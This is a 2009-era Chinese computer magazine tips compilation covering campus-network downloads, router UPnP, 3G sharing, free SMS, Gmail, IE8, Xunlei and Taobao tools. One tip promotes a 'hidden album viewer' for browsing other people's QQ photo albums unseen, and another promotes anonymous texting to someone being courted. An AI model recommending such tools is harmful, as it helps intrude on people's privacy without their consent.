小曹迫不及待地打开穿越火线，熟悉的游戏界面终于出来了！

### 突破屏蔽下载资源

校园网中，下载巨头迅雷已经无用武之地。在试了多个下载工具后，小曹发现快车、旋风、汉魅等工具可以在校园网中使用。而小曹尤其钟情汉魅，它为校园网量身订制，下载速度非常之快，平均1.1M/s的速度足以让普通宽带也汗颜吧。使用过程中发现它最快时的速度竟能达到2M/s。

安装运行汉魅（下载地址：http://www.onlinedown.net/soft/52922.htm），在“关键词”中搜索“泰坦尼克号”，然后双击该资源，点击“我的下载”标签，就可以看到实时下载速度了。

下载速度只是一方面，更重要的是汉魅集合了各大高校的资源，经常逛逛汉魅的资源说不定你会有意想不到的收获哦，特别适合考研的朋友们。

### 结束语

校园网虽然有较多限制，但是它有着电信网所没有的优越的下载速度、廉价的网费，以及丰富的学习资源。而一旦我们能通过工具或一些技巧突破校园网的限制，那就是鱼与熊掌兼得了。

> (武汉/曹旭磊)

## 巧借路由器，揪出内网里的P2P小偷

多人共享局域网，如果有人进行BT下载（或者看P2P网络电视），会严重影响他人的上网速度。因为P2P类的软件极其“抢占”网络资源。

一般情况下，我们会使用“P2P终结者”、“网络执法官”之类的软件来寻找P2P用户，这样很不方便，因为这类软件扫描、限速时会产生ARP攻击，经常发生类似“IP地址冲突”的故障，也会被一些安全软件拦截。而最近我在使用路由器时，发现路由器的UPnP功能可以很方便地找到局域网内P2P用户，具体方法如下：

我使用的是TP-LINK TL-R402路由器。在浏览器的地址栏输入http://192.168.1.1进入路由器的管理界面，点击左侧“转发规则→UPnP设置”，在UPnP管理页面中点击“启用UPnP”，重启浏览器（或者不断刷新），过一会就会发现已经显示出来很多软件及其端口、使用者的IP地址等，这样很快就能查出谁在P2P了。

这一方法的原理是利用了P2P软件大都会自动开启UPnP服务功能的特点，从而利用路由器进行查看。

> (内蒙古/孙恺)

## 不进你家门，照样看QQ空间窥照

浏览好友QQ空间里的贴图或者相册，总是一一打开日志浏览，或者打开各QQ相册后再一一点击查看。如果有一种方法，可以在不进入QQ空间的情况下就能浏览其中的所有图片，那该多好！QQ相册查看器正好能实现这个愿望（下载地址：http://word.newhua.com/cfan/200914/kxw999qq.zip）。

下载后解压，双击“QQ隐藏相册查看器.exe”运行软件。直接在“QQ号码”栏里输入欲访问的QQ空间号码，再点击“打开相册”。稍等片刻，会在软件列表里显示出当前QQ空间里的相册名称、属性及每个相册里的照片数量。

点选某个相册，下方即会显示出该相册中的所有图片列表，再双击相应图片就可以预览图片了。而且还可以点击“查看原图”，再右击原图，选择“另存为”，将图片快速保存到本机中。如果想一次性完整浏览选定相册下的所有图片，则请点击“查看全部原图”。

> (文/陈佳)

## 大流量莫浪费，共享3G网络盛宴

最近我拿到了中国联通WCDMA上网卡，一阵折腾后终于能上网冲浪了。浏览网页、观看视频、下载软件，3G的速率果然够快，差不多要赶上2M的ADSL了。宿舍里还有另外一位同学的笔记本，要是也能让他共享上网该多好（主要是想让他分摊上网费）。想到做到，经过一番摸索，终于让另外一台本本也能上网了。

思路：首先，通过本本的无线网卡将两台本本连在一个局域网内（当然也可以使用交叉线通过本本的网卡相连，但那就没有无线的自由啦）；其次，将WCDMA上网卡（我用的是ZTE中兴的MF633）安装在其中一台本本上，确保其能正常上网；最后，让另一台本本共享该上网卡上网。我把装WCDMA上网卡的本本称为本本1，另一个称为本本2，下面请看我如何设置。

第一步：本本1的无线网卡设置。打开无线网卡的属性窗口，在“常规”选项卡上点击“Internet协议(TCP/IP)→属性”。因为要用本本1做为共享主机，所以要将局域网网关、DNS设成本机IP。接着切换到“无线网络配置”选项卡，点击“添加”打开无线网络属性窗口，网络名(SSID)可随意取，本例设置为mynet，“数据加密”设置为“已禁用”，最后点击“确定”完成本本1无线网卡的设置。

第二步：本本2的无线网卡设置。同样打开无线网卡的属性窗口，这里本机的IP地址必须与本本1在同一个子网内，就本例而言，可设置为“192.168.0.5”，网关及DNS则依旧为本本1的IP地址“192.168.0.1”。设置完成，搜索可用的无线网络，就可以找到mynet了，双击它连接即可。此时，两台本本就已经在一个局域网内，可以用ping命令来测试。

第三步：在本本1上安装好联通的WCDMA上网卡，将在网络连接中新增了一个UNICOM连接。接下来是两台本本能否共享上网的关键设置：打开UNICOM连接的属性窗口，在“高级”选项卡中设置“Internet连接共享”，勾选“允许其他网络用户通过此计算机的Internet连接来连接”，家庭网络连接选择“无线网络连接”，单击“确定”完成设置。

激动人心的时刻来临了，进入无线上网卡程序，点击“网络连接”，两台本本就能共享上网了。浏览网页、观看视频、互不影响，充分利用到3G的带宽。不过要注意的是：3G收费大致有按时和按流量两种，详情请咨询当地的3G提供商。上述共享上网方案尤其适合按时计费的3G网络。

> (福建/黄文毅)

## 流氓没文化 一样能作诗

聊QQ，泡论坛，每每看那些才子佳人贴一些诗词歌赋，是不是手痒？不通常律的你，其实也能摇身一变成“大诗人”。

### 实战1:7步作诗赛曹植

相信大家都听过三国时期曹植七步作诗的故事，其实你也能做到。我们要用到的秘密武器就是“电脑作诗机”。首先打开百花潭（http://www.poem100.cn/）“诗词工具”频道，点击其中的“电脑作诗”链接。在新页面中，随意输入一个诗歌主题（比如“明月”），再在上面选好韵部和体裁，最后点击“开始作诗”，一首像模像样的古诗就新鲜出炉了。稍加修改后贴到论坛，相信能引来不少菜鸟们的喝彩的。

### 实战2:诗词格律在线检测

学写古典诗词，格律如果把握不好，是会被行家里手笑话的。所以在贴出你的大作之前，不妨请专家帮你在格律上把把脉。他就是诗词家园网站（http://www.shicijiayuan.com/）。

打开该网站，左侧可以看到一个表示诗词格律的表格，将你写的诗填写进这个表格中，网站即会在线进行检测，格律正确则显示绿色对钩，否则显示为红色警示符号。另外，它还会标出每个字的平仄属性，并且还提供经典诗词作为参照。

### 小提示：

古代书籍的版式为竖排，阅读时由上而下、由右而左。如果你创建的是与诗词相关的网站，想体现这种古色古香的风格，也可采用竖排版式。这通过假古文网站（http://typeset.ipcn.org/）即可实现。在上方输入原文，设置好分隔符、页宽、页高，最后点击“转换”，将结果复制粘贴到自己的网页中即可。

> (文/流言)

## 找回QQ开心农场中消失的好友

最近很多好友都迷上了QQ开心农场，偷菜偷得不亦乐乎。某天，我进入游戏，打开QQ好友列表后却发现里面只有自己了，多次刷新后还是如此，这可怎么办呢？

多方询问后得知，以上问题是由于Adobe Flash Player中本地存储容量不足造成的。解决方法很简单：在游戏画面上右击鼠标，选择“设置”，在弹出的“Adobe Flash Player 设置”中将“本地存储”设置中的存储信息容量设置到一个比较大的数值，一般设置为1MB以上就差不多了，稳妥起见可设置为10MB。设置完毕再打开好友列表刷新，就会发现好友们都“回来”了。

注意，Adobe Flash Player本地存储与浏览器的本地缓存是不一样的，如果其他基于Flash的网页游戏也出现类似问题时，同样可以使用上述方式尝试解决。

小提示：如何添加QQ开心农场？
进入自己的QQ空间后，点击进入“个人中心”，再点击左侧应用列表中的“添加”，找到“开心农场Beta”并单击其右侧“添加该应用→立即添加”，运气好的话就可以开通你的QQ开心农场了（添加QQ开心农场每天都有限额）。

## 轻松找出邮件附件中的宝贝

平时的工作中，我们许多的资料都保存在邮件的附件中，随着邮件数量增多，想要找出附件中的资料非常麻烦。下面就以几大主流的邮件工具为例，介绍一下如何管理邮件附件以方便我们的工作。

### Outlook的附件查看者

Outlook是办公一族最常用到的邮件客户端，它自身并不具备统一管理附件的功能，必须借助工具来实现。首先从http://work.newhua.com/cfan/200915/outlookattachview.zip下载Outlook Attachview软件包，解压直接双击其中的OutlookAttachView.exe运行程序，在不打开Outlook的情况下，即可看到Outlook所有邮件的附件了。右击某个附件，通过相应选项可查看、保存附件的基本信息，而通过“文件”菜单下的命令，则可以复制、删除所选定的附件，管理起来非常方便。

小提示：另外一个常用的邮件客户端是Foxmail，它自身已带有强大的附件管理功能：当你选择某一个邮件后，与该邮件发送者相关的所有邮件就会在右侧显示出来，而与该发送者的所有往来附件也可以单独列表显示，可以方便地进行复制、删除、查看等操作。

### QQ邮箱的附件管理

因为QQ的普及，现在用QQ邮箱的人也越来越多。当需要某一附件中的文件时，如何在茫茫邮件中查找？其实QQ邮箱提供有附件搜索功能，可以帮助我们快速定位。登录QQ邮箱后，点击右上方“邮件全文搜索”框中右侧的“高级查找”，在打开的查找对话框中，输入相应的关键词，并将“是否包含附件”设置为“包含附件”，最后点击“查找邮件”即可。如果点击高级查找框中的“查看全部附件”，还会以列表的形式显示QQ邮箱中所有的附件，并提供了下载、查看等功能，用起来非常方便。

### Gmail中的附件管理技巧

Gmail不像QQ那样支持附件内文件搜索，但是有一个小技巧，让我们能快速挑出所有带附件的邮件：在Gmail上方的搜索框中输入“has:attachment”（不含外侧引号，下同），按回车键即可。如果知道附件类型和附件标题的某些文字，还可以扩展这个命令为“has:attachment filename:文件名或者文件类型”，这样更便于我们精确定位到要找的附件了。

## 晴雨早知道，天气预报进驻谷歌日历

如今许多人会利用谷歌日历安排自己的计划行程。但计划赶不上变化，有时总担心天公不作美，会破坏掉原来的计划。而到处去找天气预报网站实在是件头疼的事情，其实没必要那么麻烦，谷歌日历中已经为我们提供了天气预报功能，只需开启一下即可。

-  第一步：打开谷歌日历界面。最简便的登录方法，是在自己的Gmail中单击左上方的“日历”选项进入，然后单击右上方的“设置”选项。
-  第二步：这时会出现“日历设置”窗口，在“基本”选项卡下找到“根据现在位置显示天气”项，将原本“不显示天气”更改为“°C”，接着在上方“地区”空白框内输入自己的地理位置，最后保存设置退出就可以了。
-  第三步：返回到谷歌日历主界面，可以清楚地看到，在未来4天的单元格上方都会多出个天气图标（注意：该天气图标会不尽相同，有表示晴朗、有表示小雨、有表示多云等），将鼠标指针移到该图标上，该日的气温也会一并显示出来了。够方便的吧。

## 既快又省，谁是最好的免费短信平台

上班时间，想发个手机短信，想跟MM聊天……老是盯着手机无疑会让BOSS反感。虽说短信只有一毛钱一条，可集腋成裘，对于“拇指一族”来说，一天三五十条信息也就是三五块钱啊，天天如此，在当前经济形势下，对于工薪一族来说也是一笔不小的支出。如果能上网免费发短信，对于很多人来说无疑是一个好消息，因为这样输入信息速度快，而且还能省下一笔费用。

### 实例 1：短信组建一支篮球队

晓风是个篮球迷，有空就会约上一些球友玩一场。此时都是短信通知，一般会把一条短信发送给十多个球友，以前通过手机发信息，速度慢而且比较浪费。自从用上了中国移动的飞信后，他把所有的球友都加到飞信好友中，每次打球直接群发短信约人，既快又省。

-  第一步：下载安装飞信（http://www.fetion.com.cn/download/pclient/），打开飞信后，单击主界面上的“添加好友”按钮，将球友们一一添加到飞信中。单击飞信主界面上的“菜单”按钮，选择“好友→添加组”出现对话框，在组名称中输入“球友”，再单击“确定”添加组，最后右击飞信好友名单中的球友，选择“组管理→将该好友复制到→球友”，将球友添加到球友组中。通过这种方法将所有的球友都加入到球友组中。
-  第二步：当约人打球时，只需要右击“球友”组，选择“向该组群发短信”，在出现的对话框中输入短信内容，单击“发送”按钮即可群发短信了。稍后球友们就会收到短信。如果他们直接回复信息的话，飞信就会接收到信息并自动弹出信息框。

### 实例 2：无名追求者的诚挚心

小伟最近看上了一个MM，想跟她聊聊，可又不知道对方的想法。因此他想先来几条匿名短信跟MM拉拉关系，看看她的态度，待时机成熟后，再现出真身，发动攻势……可怎样发匿名短信呢？重买一张手机卡？既浪费也很不方便。此时死党老鸟向他推荐了一个名为KC的软件，可以免费发送匿名短信。

第一步：下载安装KC2009（http://www.keepc.com/down），启动KC2009后，单击登录窗口的“免费注册”按钮，根据提示使用手机注册，注册是免费的，注册后登录KC2009。
第二步：单击KC2009主界面上的“短信”按钮，在出现的短信发送对话框中输入收件人的手机号码，然后在下方输入短信内容和签名，再单击“发送”按钮即可发送短信。MM收到短信后号码显示的是0591******之类的号码，她如果直接回复，则KC会显示回复的内容，这有点类似于QQ聊天。

## 免费发短信，谁是顶尖高手

如今免费发短信的软件和网站凤毛麟角，我经过长时间查找测试，搜罗了一些免费短信平台，并进行了简单的对比评测，希望能给大家的选择提供一些帮助。

### 免费短信平台小评测

| 名称 | 免费数量 | 是否要安装软件 | 有无手机版软件？ | 是否有广告？ | 是否要手机注册 | 定时发送 | 可否保存短信内容 | 是否显示手机号 | 是否支持群发短信 | 有无限制 |
|------|----------|----------------|-----------------|-------------|----------------|----------|------------------|----------------|------------------|----------|
| 飞信 | 无限制 | √ | √ | √ | √ | √ | √ | √ | √ | 对方必须是飞信好友且必须是中国移动用户，否则不好发信息。 |
| e100 | 300条短信，100条彩信 |  |  |  |  |  |  |  |  | 适合广东的移动用户。 |
| KC2009 | 有限制，使用手机注册赠送60条短信，以后可参加活动可免费获取话费。 | √ | × | √ | √ | × | √ | × | √ | 不可以给小灵通发信息。 |
| PingCo | 无限制 | √ | √ | × | √ | × | √ | √ | √ | 只能在手机上安装使用。 |

## 借手机上网，节省流量我有招

平常用手机上网，30MB的流量大部分朋友已觉得够用了。不过出于这样或那样的原因，不少人有时会通过手机实现电脑（台式机或笔记本）无线上网的。用电脑上网时特别容易“大手大脚”，一不小心就会超出套餐流量。所以在此，贡献一些我的节流小技巧。

- 技巧1：换用最新的Opera浏览器（下载地址：http://www.onlinedown.net/soft/24324.htm）。使用Opera可以直接浏览WAP网页，比如可直接访问wap.baidu.com无需任何插件。我们仅访问WAP站，这样就像手机上网一样，可以节省很多流量，而所有操作肯定要比手机上的方便。另外要注意将Opera的首页设置为空：点击菜单“工具→首选项→常规”，将启动设置为“以主页启动”，再将“主页”中的内容清空。确定即可。这样可避免一开启浏览器就浪费流量。
- 技巧2：换用省流量的软件。QQ聊天是我们上网最常做的事，不过QQ经常性地从后台下载一些广告等，比较浪费流量。我们可以将QQ换成TM（下载地址：http://im.qq.com/tm/2009/beta/）。它与QQ的功能大同小异，不过要简洁得多。
- 技巧3：利用防火墙。防火墙可以设定访问规则，监控网络动向。我使用的是免费的费尔个人防火墙（下载地址：http://www.filseclab.com/products/firewall.htm）。打开防火墙主界面，平时我们可以用“普通模式”设定各个程序的访问规则，转而用手机无线上网时，可点击左下方状态指示中的“切换模式”，按提示切换到“自定义模式”，重启防火墙后，在“管控中心”页面设置新的访问规则，将我们上网必需的软件选择放行，其他所有软件则禁止联网。另外在防火墙的“监控室”里，我们可以实时看到哪些程序在进行联网操作，即可及时关闭不需要的程序进程以节省流量了。

> 小提示：电脑通过手机上网，其实非常简单。以我的NOKIA 6220c智能手机为例，在安装了诺基亚手机的PC套件PC Suite之后，利用USB接线将手机与电脑相连接。第一次连接会显示连接向导以确认连接方式（电缆、蓝牙、红外），按照向导提示操作即可。首次连接成功后，会提示安装手机端套件，此时在手机端会弹出提示，按提示安装。最后，在PC Suite主界面上点击“连接到Internet”图标，即可让电脑自动连接无线网络了。
（文/何海洋）

## 不再怕断网，离线Gmail想用就用

前段时间Google服务器出现故障，导致许多人登录不了Gmail，这可急坏了小冯，因为他有许多重要客户的邮件保存在上面，取不出来的话就要耽误工作了。其实，如果他使用了Gmail离线版的话，就不会有这样的烦恼了，即使断网上不了线，照样可以搜索、浏览Gmail上的邮件。

离线Gmail的使用非常简单：首先打开http://mail.google.com，用自己的Gmail账户登录后，点击右上方“设置”进入设置页面，再切换到“实验室”选项卡，其中第一项就是Gmail离线版。点选右侧的“启用”，再单击上方“保存更改”。Gmail页面将自动刷新，此时右上方会多出“离线”链接。点击后会弹出设置向导窗口。点击“下一步”，因为Gmail离线版需要Gears支持，所以要选中“我信任该网站，允许其使用Gears”。点击“允许”后，在向导的下一个界面，设置Gmail离线版的快捷方式，有桌面、开始菜单、快速启动栏等几处可选。根据自己的需要勾选后，点击“确定”，Gmail即会自动将当前所有的邮件同步复制到本地硬盘上了。以后登录Gmail，它都会自动同步。一旦什么时候上不了网，或者Gmail服务不可用，这时就不用再着急了，双击桌面快捷方式启动Gmail离线版，就可以像在线一样浏览、处理邮件了（除了收发邮件之外）。
（文/一页）

## 书上能的我也能，书上不能的我还能——网络时代的读书技巧

网上读书已经成为很多朋友的消遣方式之一，不过网络看书还是有些不便，如无法做读书笔记，精彩内容不易保存等。其实只要自己动动手，我们就可以一起踏上轻松的网络读书之旅。不过读书之前需要提醒读者注意的是：电子书同样有版权概念，我们应该像对待传统书籍一样注意版权保护。

### 精彩文章，在线标注

不做笔记枉读书，可见读书要做笔记的重要性。不过，我们在网上读书的时候如何才能像传统的书本那样，在书的边边角角处写下自己的心得呢？借助http://www.diigo.com提供的工具栏即可实现在线批注。而且还可以将批注和好友共享呢。比如你和你的朋友正在新浪读书频道阅读《纯爱：和空姐同居的日子(续集)》，如果觉得其中的不少地方写得很精彩想和好友共享，可以先打开http://www.diigo.com注册为diigo用户并登录，接着打开http://www.diigo.com/tools/toolbar安装标注工具栏。启动IE后打开书籍在线页面，使用鼠标选中需要标注的页面，然后点击上方工具栏Highlight and comment（高亮并注释），此时在选中文本下方会弹出一个文本框，按提示输入自己的注释文字即可。这样当以后自己再次打开标注页面（可以添加到收藏夹），只要将光标移动到标注文本上就可以看到自己的标注内容了。如果我们打开其他网友标注的页面，在页面标注处会显示一个换色标记，光标移动到这个标记上即可看到他人的标注。

### 英语单词，即点即译

平时我们在阅读英语书籍时，遇到不懂的单词，总是要借助厚厚的英汉词典来查阅，非常不便。而在网络上，在阅读英文资料时，我们可以通过翻译软件来快速查阅单词，这方面，我极力推荐大家使用免费的谷歌金山词霸（下载地址：http://g.iciba.com/）。不过，网上有不少的电子书，采用的是图片形式的PDF格式，这时一般的翻译软件就无能为力了。对于此类网页、书籍，可以借助网易有道在线词典来即点即译。

> 小提示：
> ★ Sharecopy(http://sharedcopy.com/public/andthensome)也提供了多种浮动小工具，可以方便地加入文字注记、画重点、画线、画圈等，还可以共享笔记。当其他人对本页有批注时，还可即时发RSS通知。类似工具还有Awesome Highlighter (http://www.awesomehighlighter.com/)。
> ★ 新浪读书频道的有些书籍，后续章节要收费才能阅读。起点中文网、龙源期刊、超星数字图书馆等书籍网站，则通过会员充值卡的方式进行收费。

首先到http://cidian.youdao.com/download/YoudaoDict.exe下载安装有道词典并启动。单击词典界面右上角的“程序菜单→选项”，在打开的设置窗口切换到“屏幕取词”，勾选“使用OCR技术取词（能识别图片文字，但消耗较多资源）”。这样在阅读PDF书籍遇到不懂的单词时，只要将光标停留在单词上面，不一会即可看到有道词典的自动翻译。同样，对于网页图片上的英语单词，也可以自动进行翻译。

> 小提示：如果是英文PDF文档需要全文翻译，我们还可以打开http://www.pdftoword.com/，然后按提示将本地PDF文件上传。网站会将PDF文档转换为DOC文档并发送到我们的邮箱，此时就可以使用其他翻译工具对文档进行翻译了。

### 长篇大论，自动翻页

一些长篇小说经常把大量的内容保存在一个网页，或者多个连续的页面中连载。在阅读这些书籍的时候，我们常常要不停地点击滚动条，而借助一些工具软件则可以让阅读更轻松。
自动翻页器（下载地址：http://work.newhua.com/cfan/200915/zdfyq.rar）可以自动翻页。程序运行后在间隔处输入合适的数值，然后单击“翻页”。这样不管使用什么浏览器，打开书籍页面后，在指定的时间间隔内，右侧滚动条就会自动下滚。有些浏览器本身就具备自动翻页功能。对于傲游用户，单击菜单栏的“工具→自动滚屏”，可以选择三种速度自动滚屏，返回当前页面选择“自动滚屏→当前窗口”也可以实现自动滚屏。对于火狐用户则可以借助GreaseMonkey下的自动读取下一页的翻页脚本实现自动翻页，具体操作请登录http://hi.baidu.com/freezesoul/blog/item/fa96b5fdc3435f1509244d12.html查看。

### 精彩内容，一键保存

在网上看书经常会看到一些精彩的章节想保存下来，可是常规的复制、粘贴、启动程序保存是不是觉得很繁琐？现在可以一键保存书籍精彩内容。到http://www.newhua.com/soft/84843.htm#下载“一键保存”并安装。以后在IE中，如果发现需要保存的章节，选中保存的内容，右击选择“复制”，再选择“复制保存内容”，在打开的窗口保存文本即可。它还可以收藏精彩网址，以后在程序主界面可以随时查看收藏的内容。傲游用户如果要保存书籍章节，只要单击菜单栏的“工具→简易收集面板”，弹出收集面板后把需要保存的文本拖到面板内即可。

### 大屏阅读，读书工作两不误

现在大家使用的液晶显示器尺寸越来越大，而网页大小一般都是1024×768（像素）。这样当我们看在线书籍时，屏幕上会有很大的空白，比较浪费。MaxTo（下载地址：http://maxto.net/file_download/4/MaxToSetup-2009-06-2.exe）则可以将大屏幕分割成多个窗口，这样就可以一边打报告，一边看书而不用频繁换窗口了。运行程序后右击任务托盘程序图标选择“Change regions→Main”（改变区域→主窗口），在打开的程序窗口，根据自己的需要对当前显示器进行垂直（Split vertical）或者水平（Split）分割。比如，22寸宽屏的用户可以点击Split vertical分割，分割完成后移动分割线，自定义左右显示大小。单击DONE（完成）。返回后，一个屏幕就像变成无缝连接的左右两个显示器（最大化也只能显示在分割后的屏幕区域内），非常方便我们一边看书，一边工作。

> 小提示：如果需要在一个大窗口中阅读多个页面，可以使用IE7的网页缩略图功能。在IE中打开多个书籍页面标签，按下快捷键Ctrl+Q，这样就可以全部看到打开网站的缩略图，方便页面的切换和阅读。如果是要快速打开多个页面书籍，则可以使用傲游的快速组功能，将所有页面打开后添加到快速组即可。
（福建/俞木发）

## 本地DNS解析，不再怕暴风断网门

相信朋友们对前段时间的“暴风断网门”记忆犹新吧？南方6省之所以大面积断网，原因之一是DNS域名解析出了问题。应付此类问题，许多人采用更换DNS服务器的方法（比如换成OpenDNS）。但是无论我们使用什么DNS服务器，都得被别人摆布，而Treewalk则可以把DNS服务器搬回到本机，让我们自己掌握自己的命运。

首先从 http://work.newhua.com/cfan/200915/051111twdns.zip 下载安装Treewalk，它会自动注册为服务。第一次运行，会弹出提示，要求电脑保持为在线状态以便收集DNS信息，点击“确定”后又会提示你，DNS服务器地址将被修改为本地IP（127.0.0.1）。按提示操作，最后重新启动系统。这时在“控制面板→网络连接”中右击“本地连接”，选择“属性”，查看“Internet协议（TCP/IP）”的属性，就会发现首选DNS服务器地址已变成127.0.0.1了。

这说明Treewalk已经开始工作。你也可以在Treewalk程序组中运行Treewalk control panel（Treewalk控制面板），点击Start（开始）按钮手动启动它。在此控制面板中，还可以中止Treewalk服务，查看Treewalk状态，查看运行日志等。

现在，让所有的DNS服务器见鬼去吧，所有的域名解析工作都被放在本机进行。是不是网速有所提高？是不是以前不能打开的页面也能访问了？够神奇的吧。

> 小编有话说：
> 这一软件仅支持Windows 9x/ME/2000/2003/XP，目前尚不支持Vista。另外，因为这一软件涉及到网络底层操作，所以NOD32等一些软件会报有毒，应是误报。不过安全起见，再加上本软件会注册为服务消耗系统资源，所以建议大家仅在应急时使用。网络正常时可卸载禁用此软件。
（北京/苏子洲）

## 解密IE8中新建选项卡的秘密

一不小心关闭了浏览器，而其中打开的几个网页还没来得及看呢。重新开启浏览器后，已经记不起那几个网页的地址了，这时该怎么办？如果你用的是微软新的IE8浏览器，那就简单了：

· 首先新建一个选项卡，可以是按Ctrl+T键，或者双击选项卡栏空白处新建。在新选项卡网页中，不少朋友恰巧忽略了其中的内容，其实只要点击其中“重新打开上次浏览会话”，就可重新找回最后一次浏览的网页了。上方显示的则是近期浏览的网页记录，你可以有选择地重新打开它们，或者点击“全部打开”一次性全打开。这种方法找回的网页还有一个妙处，原网页的浏览历史也被记录了，也就是你还可以点击“返回”回退到此网页之前的网页；够神奇的吧。

新建选项卡的页面中，还可以快速打开IE8的隐私浏览模式，可以查看当前剪贴板上的内容，使用IE8的加速器等。但是你会不会觉得还不够用？比如想在其中加入自己常去的网站链接以便快速访问，想要一键打开播放器等。莫急，其实我们可以定制新选项卡页面。

在系统注册表中打开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\AboutURLs]，IE8自动调用的网页情况，在此一目了然。其中Tabs的值（res://ieframe.dll/tabswelcome.htm），正是新建选项卡时自动调用的值，我们可以用自己的网页（假设为C:\MyTabs.htm）来替换它。而在MyTabs.htm中我们可以添加任意自己想要的内容。比如网页内容如下：

```
<html><head><title>新建选项卡</title></head>
<body>
我的常用网址：<br>
<a href="http://www.google.cn">谷歌搜索</a><br>
<a href="http://www.cfan.com.cn">爱好者网站</a><br>
<a href="http://fly2spring.blog.cfan.com.cn">我的博墅</a><br>
</body>
</html>
```

则每次新建的页面都会包含这几个网址链接，方便我们快速打开。其实凡你能想到的都可在此页面实现，比如在网页中加入媒体播放器（参考代码见：http://blog.cfan.com.cn/index.php/11702/viewspace-1073687），随时播放音、视频等。

- ★ 现在基本上都是多标签式浏览器，经常会出现误关闭而找不到原来打开的网页的情况。这里再教给大家一个所有浏览器都通用的找回误关闭网页的方法：点击工具栏上的“历史”按钮，在打开的历史侧边栏中就可以找到近期浏览的所有网页了。
- ★ IE8新建选项卡页中，是不是暴露了你的浏览隐私？在“工具→Internet选项”中，点击“删除”，选择删除“历史记录”即可。
（文/流言）

## 打破壁垒，在迅雷中添加自己的应用

迅雷从新版5.9.4.969（下载地址：http://dl.xunlei.com/）开始，可以通过“工具→应用管理器”添加、禁用或移动某个应用（如迅雷看看、软件升级等）。不过它预置的新应用比较少，如何才能添加自己的应用呢？比如在迅雷中浏览网页，其实简单几步即可实现。

第一步：用记事本打开迅雷安装目录Thunder\Program下的plugin.xml文件，这里定义了迅雷主界面左侧“我的应用”列表下的所有组件。我们可以参考已有代码，在文件尾部的“</Plugin>”与“</Plugin>”之间添加新的内容，例如添加下面的代码可以在迅雷中直接访问华军的软件下载网页：

```
<Plugin Name="华军软件下载">
<DisplayInfo DisplayName="华军软件下载" Picture="xunlei.tool_box.sub_pic.logo" Des="描述信息" Disable="FALSE" Install="TRUE" PictureFile="" Fixing="FALSE"></DisplayInfo>
<Active type="OpenUrl">
<Url>http://www.newhua.com/sort/index.htm</Url>
<TabName>华军软件下载</TabName>
</Active>
</Plugin>
```

第二步：添加完毕保存文件退出。重新运行迅雷，左侧将会多出“华军软件下载”项，点击之后即可在迅雷中直接访问华军的软件下载频道，找软件下载软件是不是方便多了。

第三步：唯一遗憾的是，这个新添加的应用暂时还没有图标，原因是Logo文件尚未设计，未免有些美中不足。进入迅雷安装目录中的“Skin2”文件夹，从当前皮肤目录中找到default.tzs文件，使用WinRAR或WinZip解压缩，获得toolbox.xml文件，从第4行开始，这里定义的都是“我的应用”列表下的所有图标。任意复制其中的一个组件内容，重新粘贴并进行编辑，例如下面所示的内容：

```
<bitmap name="xunlei.tool_box.sub_pic.logo" type="RES_LOCATION_DISK_FILE" value="toolbox\logo.png"/>
```

logo.png文件请事先准备好，注意裁剪为18×18（单位：像素）大小，将这个图标文件复制到toolbox目录下就可以了（修改前请备份原文件）。如果需要移去这个“华军软件下载”的新应用，同样可以打开“应用管理器→已添加应用”对话框进行操作。同样方法，你可以添加任意自己想要的应用，还不快试一试。
（江苏/王志军）

## 淘宝购物，轻松找到我的宝贝

现在网上购物、网上开店已经成为一种风尚了，小姚也不例外，每天她都会在淘宝上找找有没有自己想要的商品，当然也要管理一下自己的淘宝“小家”。不过淘宝上的宝贝铺天盖地，如何在这些信息中找到最便宜、最放心的宝贝？每天都需要登录网页查询相应的东西非常麻烦，还不利于产品间对比。有没有解决办法呢？小姚终于找到了上手利器，下面就来一起分享一下吧。

### 淘宝大买家 一切商品尽在掌握

淘宝大买家（下载地址：http://work.newhua.com/cfan/200916/TaoBaoBuyer.rar）是一款方便淘宝买家对淘宝的海量宝贝中的价格、快递费、已卖出数量、卖家信用、卖家好评率等信息进行搜索、比较、排序的绿色小软件。

### 淘宝流水账 网上开店不再烦

小姚自己在淘宝上也有个小店，以前每天网店里的出货量及利润的计算比较麻烦，而现在用上了淘宝流水账，一切都变得轻松自如了。

首先下载淘宝流水账软件（http://work.newhua.com/cfan/200916/tblsz.rar），解压后双击淘宝流水账.exe运行，点击“账户”按钮，输入一个用户名及密码，为自己新建一个账号，点击“确定”返回。

点击“登录”进入软件主界面，输入当天所卖货物的品名、数量及金额等，这时此产品的利润就会在状态栏上显示，点击“添加”后再点击“完成”，所录入的信息就可以入“库”了。

当想要“查账”时，点击软件的“查账”，通过选择不同的日期来查找相应日期下的销售产品数量及利润即可，非常方便。

- ★ 这个软件支持多用户。如果您开两个以上的店铺，可以各开户头记账。
（文/侯忠）

## 隐私浏览也要按需定制

IE8中一个引人注目的改变，就是它增强了对隐私安全的保护。下面就让我们看看如何善加利用这些功能。

### 隐私浏览，上网不留痕迹

在IE8中，点击菜单“工具→InPrivate浏览”（或按快捷键Ctrl+Shift+P）即可进入隐私浏览模式，此时地址栏前会显示“InPrivate”字样。这种状态下可实现“隐形”冲浪，当你冲浪完毕关掉浏览器后，所有缓存的网页、历史记录、Cookie、输入的账户密码等，全部被自动清除不留痕迹，以防止其他使用你电脑的人看到你访问了哪些网站。

小提示：InPrivate浏览只是清除本机上的浏览数据，但是它不能防止系统管理员或黑客等查看到你访问过什么网站。另外，InPrivate浏览并非匿名，也就是说网站可以通过网址识别你的身份，你在网站中的操作也会被该网站记录。

### 隐私微调用 InPrivate 筛选

当你访问某个网站时，该网站上的一些内容（比如广告、视频、地图等）可能并非该网站自身所有，而是引自其他网站，这些“其他网站”就是所谓的第三方网站（或称内容提供商），而你的一些信息会被发送到这些第三方网站上。InPrivate筛选功能就是允许我们阻止第三方网站收集信息。启用方法很简单，点击菜单“工具→InPrivate筛选”，或者按快捷键Ctrl+Shift+F即可。

可重复此操作则可以取消InPrivate筛选。要微调InPrivate筛选的选项，可点击“工具→InPrivate筛选设置”，在打开的对话框中，点选那些广告（或来历不明的）网站，再单击“阻止”即可。也可以选“自动阻止”，它会自动阻止所有的第三方网站。不过有时会出现问题，比如有些网站上引用了Google的内容服务，这会导致这些网站无法正常访问。

### InPrivate 筛选 + 第三方过滤器拦截广告

上面的方法，可以设置拦截的广告网站非常少。而下面的方法，则可以让IE8达到类似Firefox的广告屏蔽效果。

